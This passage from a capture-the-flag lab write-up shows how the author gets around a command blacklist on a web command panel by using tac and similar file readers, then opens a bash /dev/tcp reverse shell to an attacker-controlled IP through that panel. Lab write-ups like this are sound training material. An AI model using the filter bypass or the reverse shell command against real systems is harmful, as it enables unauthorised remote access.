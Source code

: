 ![ls](images/ls.png) ![nocat](images/nocat.png)

However we can bypass the command blacklist using tac, another utility included in coreutils which concatenates and prints files lines in reverse. Letting us view the contents of clue.txt and Sup3rS3cretPickl3Ingred.txt . Some other commands could have been used to read files instead of cat are less, more, head, tail, strings, base64 etc. 

```
tac Sup3rS3cretPickl3Ingred.txt
xxxxxxxxxx - flag hidden from writeup

tac clue.txt

Look around the file system for the other ingredient.
```


As this command panel gives us RCE (remote code execution) I decide to try get a reverse shell. Using revshells.com (great website to copy shell payloads from made by Ryan Montgomery AKA 0day) I generate a busybox nc -e reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...

command panel:
bash -c "bash -i >& /dev/tcp/10.11.151.226/4444 0>&1"
```
